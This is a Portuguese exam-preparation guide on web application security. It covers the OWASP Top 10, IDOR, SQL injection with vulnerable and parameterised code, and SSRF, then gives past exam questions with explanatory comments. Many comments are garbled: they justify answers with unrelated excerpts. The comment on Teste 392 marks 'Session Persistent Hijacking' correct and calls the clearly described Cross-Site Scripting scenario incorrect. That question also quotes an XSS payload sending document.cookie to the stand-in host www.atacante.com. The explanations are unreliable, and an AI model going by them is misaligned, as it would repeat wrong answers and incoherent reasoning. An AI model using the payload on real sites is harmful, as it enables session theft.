




# 04 - Segurança em Aplicações, OWASP Top 10 e DevSecOps

> **Matéria:** Segurança da Informação  
> **Cargo:** B02 – Técnico de Controle Externo – Especialidade: Tecnologia da Informação  
> **Arquivo:** `04_seguranca_em_aplicacoes_owasp_top_10_e_devsecops.md`  


---


## 📌 Ementa / Itens do Edital
- Segurança no ciclo de vida de aplicações
- Projeto OWASP Top 10 (vulnerabilidades críticas em aplicações web)
- Boas práticas de codificação segura e abordagem DevSecOps (Shift-Left)
- Ferramentas de testes de segurança de software: SAST, DAST, IAST e SCA
- Segurança específica em APIs, em contêineres e em ambientes de nuvem

---

## 🧭 Sumário

1. [O Projeto OWASP Top 10 e Vulnerabilidades Críticas em Software Web](#1-o-projeto-owasp-top-10-e-vulnerabilidades-criticas-em-software-web)
    1. [Visão Geral e Categorias Oficiais do OWASP Top 10](#11-visao-geral-e-categorias-oficiais-do-owasp-top-10)
    2. [Broken Access Control (#1) e Insecure Direct Object References (IDOR)](#12-broken-access-control-1-e-insecure-direct-object-references-idor)
    3. [Cryptographic Failures (#2) e Proteção de Dados](#13-cryptographic-failures-2-e-protecao-de-dados)
    4. [Injection (#3): SQL Injection vs. Consultas Parametrizadas e Modalidades de XSS](#14-injection-3-sql-injection-vs-consultas-parametrizadas-e-modalidades-de-xss)
    5. [Demais Categorias Críticas: Insecure Design, Misconfiguration, SSRF e Supply Chain](#15-demais-categorias-criticas-insecure-design-misconfiguration-ssrf-e-supply-chain)
    6. [Teste 388](#Teste-388)
    7. [Teste 389](#Teste-389)
    8. [Teste 390](#Teste-390)
    9. [Teste 391](#Teste-391)
    10. [Teste 392](#Teste-392)
2. [Abordagem DevSecOps e a Cultura Shift-Left](#2-abordagem-devsecops-e-a-cultura-shift-left)
    1. [Princípios do DevSecOps e Economia da Correção Precoce (Shift-Left)](#21-principios-do-devsecops-e-economia-da-correcao-precoce-shift-left)
    2. [Modelagem de Ameaças com a Metodologia STRIDE](#22-modelagem-de-ameacas-com-a-metodologia-stride)
    3. [Ferramentas Automatizadas de Teste de Segurança (SAST, DAST, IAST, SCA)](#23-ferramentas-automatizadas-de-teste-de-seguranca-sast-dast-iast-sca)
    4. [Teste 393](#Teste-393)
    5. [Teste 394](#Teste-394)
    6. [Teste 395](#Teste-395)
3. [Segurança em APIs, Contêineres e Ambientes de Nuvem](#3-seguranca-em-apis-conteineres-e-ambientes-de-nuvem)
    1. [Segurança em APIs: OWASP API Security Top 10 e BOLA](#31-seguranca-em-apis-owasp-api-security-top-10-e-bola)
    2. [Boas Práticas e Hardening em Contêineres Docker e Kubernetes](#32-boas-praticas-e-hardening-em-conteineres-docker-e-kubernetes)
    3. [Segurança em Nuvem: Modelo de Responsabilidade Compartilhada e Proteção de Metadados](#33-seguranca-em-nuvem-modelo-de-responsabilidade-compartilhada-e-protecao-de-metadados)
    4. [Teste 396](#Teste-396)
    5. [Teste 397](#Teste-397)
    6. [Teste 398](#Teste-398)
6. [Fontes Recomendadas na Internet](#6-fontes-recomendadas-na-internet)

---

## 1. O Projeto OWASP Top 10 e Vulnerabilidades Críticas em Software Web

### 1.1 Visão Geral e Categorias Oficiais do OWASP Top 10

O *Open Web Application Security Project* (**OWASP**) é uma comunidade internacional sem fins lucrativos que lidera o consenso técnico global sobre a segurança no desenvolvimento de software. Seu principal documento de referência é o **OWASP Top 10**, uma publicação periódica que sintetiza as dez vulnerabilidades mais perigosas e frequentes em aplicações web em âmbito mundial.

| Posição | Categoria OWASP | Descrição do Risco | Exemplos Práticos / Vetores de Ataque | Mitigação Primária |
|---|---|---|---|---|
| **A01** | **Broken Access Control** *(#1 do Ranking)* | Falha na imposição de regras de autorização no backend, permitindo que usuários ajam fora dos limites de suas permissões. | **IDOR** (trocar `id=100` por `id=101` na URL para ver dado alheio); acesso direto a URLs administrativas sem autenticação; bypass de verificação de permissão. | *Deny by default*; validar autorização no lado do servidor em todas as requisições; tokens de sessão opacos. |
| **A02** | **Cryptographic Failures** *(antigo Sensitive Data Exposure)* | Falhas na proteção de dados sensíveis em repouso (*at rest*) ou em trânsito (*in transit*). | Uso de cifras obsoletas (MD5, DES, RC4); transmissão em HTTP sem TLS; chaves hardcoded no código; senhas salvas sem salt. | TLS 1.3 com HSTS obrigatório; AES-GCM para dados em repouso; hashing de senhas com algoritmos lentos (Argon2, bcrypt, PBKDF2). |
| **A03** | **Injection** | Dados não confiáveis fornecidos pelo usuário são interpretados como comandos ou instruções pelo interpretador. | **SQL Injection (SQLi)**; **Cross-Site Scripting (XSS)**; Command Injection (OS); LDAP/NoSQL Injection. | Consultas Parametrizadas (*Prepared Statements* com *bind variables*); ORMs; codificação sensível ao contexto (*context-aware encoding*); WAF. |
| **A04** | **Insecure Design** *(Categoria Nova)* | Falhas estruturais de concepção e arquitetura antes mesmo de o código ser escrito. | Ausência de modelagem de ameaças; regras de negócio sem limitação de taxa (ex.: compras infinitas com cupom); falta de design seguro. | Modelagem de ameaças (metodologia STRIDE); arquitetura de defesa em profundidade; princípios de *Secure by Design*. |
| **A05** | **Security Misconfiguration** | Configuração inadequada ou negligente dos componentes da pilha de software. | Contas e senhas padrão de fábrica mantidas; mensagens de erro detalhadas expondo *stack traces*; portas de depuração abertas; cabeçalhos de segurança ausentes. | Processo automatizado de *hardening*; desinstalação de utilitários desnecessários; desativação de mensagens detalhadas de erro para o cliente. |
| **A06** | **Vulnerable and Outdated Components** | Uso de bibliotecas, frameworks ou dependências de terceiros com falhas de segurança conhecidas. | Uso de versões antigas do Apache Log4j (falha *Log4Shell* - CVE-2021-44228); bibliotecas JavaScript com bugs públicos. | Análise de Composição de Software (SCA contínuo); monitoramento de boletins CVE/NVD; geração de SBOM (*Software Bill of Materials*). |
| **A07** | **Identification and Authentication Failures** | Falhas na verificação da identidade do usuário e gerenciamento de sessão. | Ausência de MFA; tolerância a senhas fracas; vulnerabilidade a *credential stuffing* e ataques de dicionário; sessões que não expiram após logout. | MFA obrigatório; bloqueio de contas após múltiplas tentativas falhas; controle de complexidade de senhas; cookies com flags `Secure`, `HttpOnly` e `SameSite`. |
| **A08** | **Software and Data Integrity Failures** *(Categoria Nova)* | Código ou infraestrutura que não protege contra violações de integridade em pipelines e dependências. | Desserialização insegura de objetos serializados não confiáveis (*Insecure Deserialization*); atualizações sem assinatura digital; contaminação de dependências (*supply chain*). | Assinatura digital em artefatos de build; verificação de integridade de dependências; evitar desserialização de formatos genéricos de dados não confiáveis. |
| **A09** | **Security Logging and Monitoring Failures** | Falha em registrar, monitorar e alertar tempestivamente sobre eventos suspeitos e incidentes. | Tentativas de login falhas não registradas; logs mantidos apenas localmente permitindo que o invasor os apague; ausência de integração com SIEM. | Centralização de logs imutáveis em SIEM; alertas automatizados em tempo quase real; retenção em conformidade com regulamentos. |
| **A10** | **Server-Side Request Forgery (SSRF)** | A aplicação web é induzida a realizar requisições HTTP arbitrárias a um destino fornecido pelo usuário. | O servidor vulnerável faz requisição contra serviços de metadados em nuvem (`http://169.254.169.254`) ou sistemas internos atrás do firewall. | Validação estrita de URLs de destino; lista permitida (*allowlist*) de domínios; isolamento de rede do servidor de aplicação. |

### 1.2 Broken Access Control (#1) e Insecure Direct Object References (IDOR)

Na edição atual do OWASP Top 10, **Broken Access Control assumiu a 1ª posição absoluta**, sendo identificada em 94% das aplicações testadas.

Essa falha ocorre quando a aplicação não valida no lado do servidor se o usuário autenticado possui os privilégios necessários para executar determinada ação ou acessar determinado recurso.

#### O Caso Clássico do IDOR (*Insecure Direct Object References*):
Ocorre quando a aplicação expõe diretamente um identificador de banco de dados na URL ou no corpo da requisição:

```text
https://tribunal.gov.br/api/processo?id=1050
```

Se o usuário simplesmente alterar o valor na barra de endereços para `id=1051` e o sistema exibir o processo sigiloso de outro cidadão, configura-se um **IDOR**, espécie notória de *Broken Access Control*.

- **Mitigação Mandatória:** O servidor deve SEMPRE verificar na camada de aplicação:  
  *O `usuario_autenticado` é o proprietário legítimo ou possui autorização formal no RBAC/ABAC para acessar o recurso `id=1051`?* Se não, a requisição deve ser bloqueada com código HTTP `403 Forbidden`.

### 1.3 Cryptographic Failures (#2) e Proteção de Dados

Anteriormente denominada *Sensitive Data Exposure*, essa categoria concentra-se em deficiências relacionadas ao uso incorreto ou à ausência de criptografia:

- **Dados em Trânsito:** Omissão do protocolo HTTPS/TLS 1.3, tráfego de dados sensíveis (senhas, CPF, informações de saúde) em texto puro HTTP, ausência do cabeçalho HSTS (*HTTP Strict Transport Security*).
- **Dados em Repouso:** Armazenamento de dados críticos em bases de dados sem criptografia de ponta a ponta (AES-256-GCM); armazenamento de senhas com funções hash rápidas e vulneráveis (MD5, SHA-1) ou sem a devida adição de valor aleatório de *salt* individualizado.
- **Mitigação:** Emprego obrigatório de cifras simétricas robustas com modos autenticados (AES-GCM), protocolos seguros de transporte e funções de derivação de chaves projetadas especificamente para senhas com custo de processamento ajustável (Argon2, bcrypt, PBKDF2).

### 1.4 Injection (#3): SQL Injection vs. Consultas Parametrizadas e Modalidades de XSS

A **Injeção (A03)** ocorre quando dados fornecidos por fontes externas não confiáveis são concatenados diretamente a interpretadores de comandos ou linguagens de consulta.

#### Injeção de SQL (SQLi)
Ocorre quando comandos SQL são montados via interpolação ou concatenação direta de strings:



- **Código Vulnerável:**

```python
# O atacante altera a árvore de execução sintática do SQL
query = f"SELECT * FROM servidores WHERE cpf = '{cpf_input}'"
cursor.execute(query)
```

- **Código Seguro (Prepared Statements com Parâmetros Vinculados):**

```python
# O motor do banco de dados trata a entrada estritamente como dado literal puro
query = "SELECT * FROM servidores WHERE cpf = %s"
cursor.execute(query, (cpf_input,))
```

> 🚨 **ALERTA DE PROVA / PEGADINHA FCC:**  
> A FCC adora afirmar que funções de substituição manual de caracteres (como trocar aspas por barras) são a solução ideal para injeção de SQL. **ERRADO!** Filtros manuais baseados em listas de bloqueio (*denylists*) são historicamente burláveis por diversas técnicas de codificação. A **única defesa definitiva e prioritária recomendada pela OWASP são as Consultas Parametrizadas (*Prepared Statements* com parâmetros vinculados / *bind variables*)**.

### 1.5 Demais Categorias Críticas: Insecure Design, Misconfiguration, SSRF e Supply Chain

- **A04: Insecure Design (Design Inseguro):** Categoria nova que diferencia falhas de implementação (bugs de código) de **falhas de concepção e arquitetura**. Se o sistema de compras do órgão não possui uma regra arquitetural de limitação de compras por minuto, o código pode estar perfeitamente escrito e livre de falhas de injeção, mas o design é vulnerável a abusos lógicos de negócio.
- **A05: Security Misconfiguration (Configuração Incorreta de Segurança):** Envolve a manutenção de contas, logins e senhas padrão de fábrica em bancos de dados e servidores web; mensagens de erro detalhadas expondo *stack traces* e versões internas de bibliotecas aos usuários finais; portas de depuração abertas em produção e falta de políticas de segurança HTTP (*Content-Security-Policy*).
- **A08: Software and Data Integrity Failures:** Foco na segurança da cadeia de suprimentos (*supply chain*). Envolve a ingestão de dependências e pacotes sem verificação de assinatura digital e a **desserialização insegura (*Insecure Deserialization*)**, onde objetos serializados em XML, JSON ou binários recebidos de usuários remotos são recriados na memória sem validação, viabilizando execução remota de código (RCE).
- **A10: Server-Side Request Forgery (SSRF):** Ocorre quando um atacante consegue induzir o servidor de aplicação a disparar requisições HTTP arbitrárias para recursos internos protegidos pela rede interna. Em ambientes de nuvem pública, o vetor mais crítico de SSRF é forçar o servidor a ler a URL local de metadados (`http://169.254.169.254/latest/meta-data/`), expondo tokens temporários de credenciais administrativas da máquina virtual.

---

### Teste 388
**(FGV – TJ-AP – Analista Judiciario Apoio Especializado Tecnologia da Informacao Banco de Dados – 2023)**
No contexto de administração de conexões no Oracle, Database Link é um objeto do esquema que permite que usuários acessem objetos em bancos de dados diferentes. Observe o seguinte script: ---conexão no banco de dados staging CONNECT staging@staging CREATE PUBLIC DATABASE LINK "PRD_PROCESSO" CONNECT TO staging IDENTIFIED BY `<PWD>` USING 'PRD_PROCESSO'; SELECT nome FROM processo.tbl_usuario@prd_processo WHERE cpf = 99988877766; Após a execução do script acima, a instrução SELECT:

* **A)** retornará o nome do usuário com o CPF 99988877766 da tabela “tbl_usuario” do banco de dados “prd_processo”;
* **B)** retornará o nome do usuário com o CPF 99988877766 da tabela “tbl_usuario” do banco de dados “prd_processo”, se o usuário “processo” existir no banco de dados “staging”;
* **C)** retornará o nome do usuário com o CPF 99988877766 da tabela “tbl_usuario” do banco de dados “prd_processo”, se existir sinônimo público para a tabela “tbl_usuario” no banco de dados “prd_processo”;
* **D)** não retornará o nome do usuário com o CPF 99988877766 da tabela “tbl_usuario” do banco de dados “prd_processo”, porque o Database Link deve ser criado no banco de dados remoto especificado em USING 'PRD_PROCESSO';
* **E)** não retornará o nome do usuário com o CPF 99988877766 da tabela “tbl_usuario” do banco de dados “prd_processo”, porque a instrução deve ser executada com o usuário “staging” na cláusula FROM staging.tbl_usuario@prd_processo.

---

> **Comentário Detalhado:**
>
> - **A)** **Correta.** Conforme fundamentado na seção *1.3 Cryptographic Failures (#2) e Proteção de Dados* deste guia, dados em Trânsito: Omissão do protocolo HTTPS/TLS 1.3, tráfego de dados sensíveis (senhas, CPF, informações de saúde) em texto puro HTTP, ausência do cabeçalho HSTS (*HTTP Strict Transport Security*). Dessa forma, está plenamente correta a assertiva da banca (FGV – TJ-AP/2023) ao estabelecer que "retornará o nome do usuário com o CPF 99988877766 da tabela “tbl_usuario” do banco de dados “prd_processo”".
> - **B)** **Incorreta.** A opção apresenta proposição em desacordo com os fundamentos teóricos e técnicos do tópico ao afirmar que "retornará o nome do usuário com o CPF 99988877766 da tabela “tbl_usuario” do banco de dados “prd_processo”, se o...". De acordo com a teoria estudada em *3.1 Segurança em APIs: OWASP API Security Top 10 e BOLA*, mass Assignment (Atribuição em Massa): A API aceita o JSON enviado pelo cliente e o vincula diretamente a objetos de banco de dados internos.
> - **C)** **Incorreta.** A opção apresenta proposição em desacordo com os fundamentos teóricos e técnicos do tópico ao afirmar que "retornará o nome do usuário com o CPF 99988877766 da tabela “tbl_usuario” do banco de dados “prd_processo”, se...". De acordo com a teoria estudada em *O Caso Clássico do IDOR (Insecure Direct Object References):*, se o usuário simplesmente alterar o valor na barra de endereços para `id=1051` e o sistema exibir o processo sigiloso de outro cidadão, configura-se um IDOR, espécie notória de *Broken Access Control*.
> - **D)** **Incorreta.** A opção apresenta proposição em desacordo com os fundamentos teóricos e técnicos do tópico ao afirmar que "não retornará o nome do usuário com o CPF 99988877766 da tabela “tbl_usuario” do banco de dados “prd_processo”...". De acordo com a teoria estudada em *O Caso Clássico do IDOR (Insecure Direct Object References):*, *O `usuario_autenticado` é o proprietário legítimo ou possui autorização formal no RBAC/ABAC para acessar o recurso `id=1051`?* Se não, a requisição deve ser bloqueada com código HTTP `403 Forbidden`.
> - **E)** **Incorreta.** A opção apresenta proposição em desacordo com os fundamentos teóricos e técnicos do tópico ao afirmar que "não retornará o nome do usuário com o CPF 99988877766 da tabela “tbl_usuario” do banco de dados “prd_processo”...". De acordo com a teoria estudada em *O Caso Clássico do IDOR (Insecure Direct Object References):*, ocorre quando a aplicação expõe diretamente um identificador de banco de dados na URL ou no corpo da requisição.
>
> **Gabarito: A**

---

### Teste 389
**(FGV – TJ-AP – Analista Judiciario Apoio Especializado Tecnologia da Informacao Seguranca da Informacao – 2023)**
A empresa Z criou uma nova aplicação web, mas foi atacada após disponibilizá-la na Internet. A equipe de segurança da empresa Z identificou que a configuração do servidor de aplicações permitia que os detalhes das mensagens de erro fossem retornados aos usuários. Tal fato exibe informações confidenciais ou falhas subjacentes. Para a elaboração do relatório de ataque a ser entregue à empresa Z, a equipe de segurança usou o OWASP. Ao verificar o OWASP, a equipe definiu o ataque como pertencente à categoria:

* **A)** A09:2021 – Falhas de Registro e Monitoramento de Segurança;
* **B)** A08:2021 – Falhas de Software e Integridade de Dados;
* **C)** A07:2021 – Falhas de Identificação e Autenticação;
* **D)** A06:2021 – Componentes Vulneráveis e Desatualizados;
* **E)** A05:2021 – Configuração Incorreta de Segurança.

---

> **Comentário Detalhado:**
>
> - **A)** **Incorreta.** A opção apresenta proposição em desacordo com os fundamentos teóricos e técnicos do tópico ao afirmar que "A09:2021 – Falhas de Registro e Monitoramento de Segurança". De acordo com a teoria estudada em *1.1 Visão Geral e Categorias Oficiais do OWASP Top 10*, a05: Security Misconfiguration — Configuração inadequada ou negligente dos componentes da pilha de software. — Contas e senhas padrão de fábrica mantidas; mensagens de erro detalhadas expondo *stack traces*; portas de depuração abertas; cabeçalhos de segurança ausentes. — Processo automatizado de *hardening*; desinstalação de utilitários desnecessários; desativação de mensagens detalhadas de erro para o cliente.
> - **B)** **Incorreta.** A opção apresenta proposição em desacordo com os fundamentos teóricos e técnicos do tópico ao afirmar que "A08:2021 – Falhas de Software e Integridade de Dados". De acordo com a teoria estudada em *1.1 Visão Geral e Categorias Oficiais do OWASP Top 10*, a08: Software and Data Integrity Failures *(Categoria Nova)* — Código ou infraestrutura que não protege contra violações de integridade em pipelines e dependências. — Desserialização insegura de objetos serializados não confiáveis (*Insecure Deserialization*); atualizações sem assinatura digital; contaminação de dependências (*supply chain*). — Assinatura digital em artefatos de build; verificação de integridade de dependências; evitar desserialização de formatos genéricos de dados não confiáveis.
> - **C)** **Incorreta.** A opção apresenta proposição em desacordo com os fundamentos teóricos e técnicos do tópico ao afirmar que "A07:2021 – Falhas de Identificação e Autenticação". De acordo com a teoria estudada em *1.1 Visão Geral e Categorias Oficiais do OWASP Top 10*, a07: Identification and Authentication Failures — Falhas na verificação da identidade do usuário e gerenciamento de sessão. — Ausência de MFA; tolerância a senhas fracas; vulnerabilidade a *credential stuffing* e ataques de dicionário; sessões que não expiram após logout. — MFA obrigatório; bloqueio de contas após múltiplas tentativas falhas; controle de complexidade de senhas; cookies com flags `Secure`, `HttpOnly` e `SameSite`.
> - **D)** **Incorreta.** A opção apresenta proposição em desacordo com os fundamentos teóricos e técnicos do tópico ao afirmar que "A06:2021 – Componentes Vulneráveis e Desatualizados". De acordo com a teoria estudada em *1.1 Visão Geral e Categorias Oficiais do OWASP Top 10*, a06: Vulnerable and Outdated Components — Uso de bibliotecas, frameworks ou dependências de terceiros com falhas de segurança conhecidas. — Uso de versões antigas do Apache Log4j (falha *Log4Shell* - CVE-2021-44228); bibliotecas JavaScript com bugs públicos. — Análise de Composição de Software (SCA contínuo); monitoramento de boletins CVE/NVD; geração de SBOM (*Software Bill of Materials*).
> - **E)** **Correta.** Conforme fundamentado na seção *1.5 Demais Categorias Críticas: Insecure Design, Misconfiguration, SSRF e Supply Chain* deste guia, a05: Security Misconfiguration (Configuração Incorreta de Segurança): Envolve a manutenção de contas, logins e senhas padrão de fábrica em bancos de dados e servidores web; mensagens de erro detalhadas expondo *stack traces* e versões internas de bibliotecas aos usuários finais; portas de depuração abertas em produção e falta de políticas de segurança HTTP (*Content-Security-Policy*). Dessa forma, está plenamente correta a assertiva da banca (FGV – TJ-AP/2023) ao estabelecer que "A05:2021 – Configuração Incorreta de Segurança".
>
> **Gabarito: E**

---

### Teste 390
**(CEBRASPE – TJ-RJ – Analista Judiciario Grupo Tecnologia da Informacao Analista de Seguranca da Informacao – 2021)**
O OWASP (Open Web Application Security Project) criou um conjunto de listas de verificação de práticas de programação segura para as diversas etapas ou tarefas do desenvolvimento de software, como a gestão de sessões, com os seguintes itens de verificação: I não permitir logins persistentes; II não permitir conexões simultâneas com o mesmo identificador de usuário; III utilizar apenas pedidos POST para transmitir credenciais de autenticação. Considerando a gestão de sessões, no desenvolvimento seguro de software, assinale a opção correta.

* **A)** Apenas o item I está certo.
* **B)** Apenas o item III está certo.
* **C)** Apenas os itens I e II estão certos.
* **D)** Apenas os itens II e III estão certos.
* **E)** Todos os itens estão certos.

---

> **Comentário Detalhado:**
>
> - **A)** **Incorreta.** A opção incorre em restrição indevida ao limitar o escopo conceitual ao afirmar que "Apenas o item I está certo". De acordo com a teoria estudada em *1.1 Visão Geral e Categorias Oficiais do OWASP Top 10*, a07: Identification and Authentication Failures — Falhas na verificação da identidade do usuário e gerenciamento de sessão. — Ausência de MFA; tolerância a senhas fracas; vulnerabilidade a *credential stuffing* e ataques de dicionário; sessões que não expiram após logout. — MFA obrigatório; bloqueio de contas após múltiplas tentativas falhas; controle de complexidade de senhas; cookies com flags `Secure`, `HttpOnly` e `SameSite`.
> - **B)** **Incorreta.** A opção incorre em restrição indevida ao limitar o escopo conceitual ao afirmar que "Apenas o item III está certo". De acordo com a teoria estudada em *Injeção de SQL (SQLi)*, eRRADO! Filtros manuais baseados em listas de bloqueio (*denylists*) são historicamente burláveis por diversas técnicas de codificação.
> - **C)** **Correta.** Conforme fundamentado na seção *1.1 Visão Geral e Categorias Oficiais do OWASP Top 10* deste guia, o *Open Web Application Security Project* (OWASP) é uma comunidade internacional sem fins lucrativos que lidera o consenso técnico global sobre a segurança no desenvolvimento de software. Dessa forma, está plenamente correta a assertiva da banca (CEBRASPE – TJ-RJ/2021) ao estabelecer que "Apenas os itens I e II estão certos".
> - **D)** **Incorreta.** A opção incorre em restrição indevida ao limitar o escopo conceitual ao afirmar que "Apenas os itens II e III estão certos". De acordo com a teoria estudada em *1.5 Demais Categorias Críticas: Insecure Design, Misconfiguration, SSRF e Supply Chain*, a05: Security Misconfiguration (Configuração Incorreta de Segurança): Envolve a manutenção de contas, logins e senhas padrão de fábrica em bancos de dados e servidores web; mensagens de erro detalhadas expondo *stack traces* e versões internas de bibliotecas aos usuários finais; portas de depuração abertas em produção e falta de políticas de segurança HTTP (*Content-Security-Policy*).
> - **E)** **Incorreta.** A opção apresenta proposição em desacordo com os fundamentos teóricos e técnicos do tópico ao afirmar que "Todos os itens estão certos". De acordo com a teoria estudada em *1.1 Visão Geral e Categorias Oficiais do OWASP Top 10*, a01: Broken Access Control *(#1 do Ranking)* — Falha na imposição de regras de autorização no backend, permitindo que usuários ajam fora dos limites de suas permissões. — IDOR (trocar `id=100` por `id=101` na URL para ver dado alheio); acesso direto a URLs administrativas sem autenticação; bypass de verificação de permissão. — *Deny by default*; validar autorização no lado do servidor em todas as requisições; tokens de sessão opacos.
>
> **Gabarito: C**

---

### Teste 391
**(FGV – TJ-AP – Analista Judiciario Apoio Especializado Tecnologia da Informacao Seguranca da Informacao – 2023)**
A equipe de Segurança da Informação (SI) de um órgão público realizou varreduras de vulnerabilidades em seus ativos a fim de reduzir a exposição dos sistemas aos riscos. Durante a varredura, a equipe de SI identificou que um dos sistemas tinha uma vulnerabilidade que permitia a inserção de scripts maliciosos na aplicação, alterando o conteúdo dinâmico que o usuário recebia em seu navegador, redirecionando-o para um site falso. A vulnerabilidade identificada permitia um ataque de:

* **A)** backdoor;
* **B)** rootkit;
* **C)** session hijacking;
* **D)** cross-site scripting;
* **E)** SQL injection.

---

> **Comentário Detalhado:**
>
> - **A)** **Incorreta.** A opção apresenta proposição em desacordo com os fundamentos teóricos e técnicos do tópico ao afirmar que "backdoor". De acordo com a teoria estudada em *3.2 Boas Práticas e Hardening em Contêineres Docker e Kubernetes*, sistemas de Arquivos Somente Leitura (*Read-Only Root Filesystem*): Inicializar o contêiner com a flag `--read-only`, impedindo que invasores ou scripts maliciosos gravem arquivos executáveis em diretórios do sistema.
> - **B)** **Incorreta.** A opção apresenta proposição em desacordo com os fundamentos teóricos e técnicos do tópico ao afirmar que "rootkit". De acordo com a teoria estudada em *2.3 Ferramentas Automatizadas de Teste de Segurança (SAST, DAST, IAST, SCA)*, sCA: *Software Composition Analysis* — Caixa-Branca / Inventário — Durante o build através de arquivos de manifesto (`package.json`, `pom.xml`, `requirements.txt`). — Dependências de código aberto, bibliotecas de terceiros e frameworks. — Pró: Mapeia vulnerabilidades públicas catalogadas (CVEs) e analisa riscos de conformidade de licenças legais de software livre.
> - **C)** **Incorreta.** A opção apresenta proposição em desacordo com os fundamentos teóricos e técnicos do tópico ao afirmar que "session hijacking". De acordo com a teoria estudada em *1.1 Visão Geral e Categorias Oficiais do OWASP Top 10*, a10: Server-Side Request Forgery (SSRF) — A aplicação web é induzida a realizar requisições HTTP arbitrárias a um destino fornecido pelo usuário. — O servidor vulnerável faz requisição contra serviços de metadados em nuvem (`http://169.254.169.254`) ou sistemas internos atrás do firewall. — Validação estrita de URLs de destino; lista permitida (*allowlist*) de domínios; isolamento de rede do servidor de aplicação.
> - **D)** **Correta.** Conforme fundamentado na seção *1.1 Visão Geral e Categorias Oficiais do OWASP Top 10* deste guia, a03: Injection — Dados não confiáveis fornecidos pelo usuário são interpretados como comandos ou instruções pelo interpretador. — SQL Injection (SQLi); Cross-Site Scripting (XSS); Command Injection (OS). Dessa forma, está plenamente correta a assertiva da banca (FGV – TJ-AP/2023) ao estabelecer que "cross-site scripting".
> - **E)** **Incorreta.** A opção apresenta proposição em desacordo com os fundamentos teóricos e técnicos do tópico ao afirmar que "SQL injection". De acordo com a teoria estudada em *1.4 Injection (#3): SQL Injection vs. Consultas Parametrizadas e Modalidades de XSS*, a Injeção (A03) ocorre quando dados fornecidos por fontes externas não confiáveis são concatenados diretamente a interpretadores de comandos ou linguagens de consulta.
>
> **Gabarito: D**

---

### Teste 392
**(FCC – TRT-24 – Analista Judiciario Tecnologia da Informacao – 2017)**
Considere um cenário em que uma aplicação utiliza dados não confiáveis na construção do seguinte fragmento HTML sem validação ou filtro: (String) page += "<input name='num_cartao_credito' type='TEXT' value='" + request.getParameter("credit_card") + "'>"; Considere, ainda, que um atacante modifica o parâmetro 'credit_card' em seu navegador para: '>`<script>`document.location= 'http://www.atacante.com/cgi-bin/cookie.cgi? foo='+document.cookie`</script>`' Isso causa o envio do ID de sessão da vítima para o site do atacante, permitindo que sequestre a sessão atual do usuário. Este é um cenário de ataque do tipo

* **A)** Script-Fake Injection.
* **B)** Session Persistent Hijacking.
* **C)** Cross-Site Scripting.
* **D)** Buffer Overflow.
* **E)** Advanced Persistent Threat.

---

> **Comentário Detalhado:**
>
> - **A)** **Incorreta.** A opção apresenta proposição em desacordo com os fundamentos teóricos e técnicos do tópico ao afirmar que "Script-Fake Injection". De acordo com a teoria estudada em *1.1 Visão Geral e Categorias Oficiais do OWASP Top 10*, a03: Injection — Dados não confiáveis fornecidos pelo usuário são interpretados como comandos ou instruções pelo interpretador. — SQL Injection (SQLi); Cross-Site Scripting (XSS); Command Injection (OS).
> - **B)** **Correta.** Conforme fundamentado na seção *1.1 Visão Geral e Categorias Oficiais do OWASP Top 10* deste guia, a10: Server-Side Request Forgery (SSRF) — A aplicação web é induzida a realizar requisições HTTP arbitrárias a um destino fornecido pelo usuário. — O servidor vulnerável faz requisição contra serviços de metadados em nuvem (`http://169.254.169.254`) ou sistemas internos atrás do firewall. — Validação estrita de URLs de destino; lista permitida (*allowlist*) de domínios; isolamento de rede do servidor de aplicação. Dessa forma, está plenamente correta a assertiva da banca (FCC – TRT-24/2017) ao estabelecer que "Session Persistent Hijacking".
> - **C)** **Incorreta.** A opção apresenta proposição em desacordo com os fundamentos teóricos e técnicos do tópico ao afirmar que "Cross-Site Scripting". De acordo com a teoria estudada em *1.5 Demais Categorias Críticas: Insecure Design, Misconfiguration, SSRF e Supply Chain*, a10: Server-Side Request Forgery (SSRF): Ocorre quando um atacante consegue induzir o servidor de aplicação a disparar requisições HTTP arbitrárias para recursos internos protegidos pela rede interna.
> - **D)** **Incorreta.** A opção apresenta proposição em desacordo com os fundamentos teóricos e técnicos do tópico ao afirmar que "Buffer Overflow". De acordo com a teoria estudada em *1.1 Visão Geral e Categorias Oficiais do OWASP Top 10*, a01: Broken Access Control *(#1 do Ranking)* — Falha na imposição de regras de autorização no backend, permitindo que usuários ajam fora dos limites de suas permissões. — IDOR (trocar `id=100` por `id=101` na URL para ver dado alheio); acesso direto a URLs administrativas sem autenticação; bypass de verificação de permissão. — *Deny by default*; validar autorização no lado do servidor em todas as requisições; tokens de sessão opacos.
> - **E)** **Incorreta.** A opção apresenta proposição em desacordo com os fundamentos teóricos e técnicos do tópico ao afirmar que "Advanced Persistent Threat". De acordo com a teoria estudada em *1.1 Visão Geral e Categorias Oficiais do OWASP Top 10*, a07: Identification and Authentication Failures — Falhas na verificação da identidade do usuário e gerenciamento de sessão. — Ausência de MFA; tolerância a senhas fracas; vulnerabilidade a *credential stuffing* e ataques de dicionário; sessões que não expiram após logout. — MFA obrigatório; bloqueio de contas após múltiplas tentativas falhas; controle de complexidade de senhas; cookies com flags `Secure`, `HttpOnly` e `SameSite`.
>
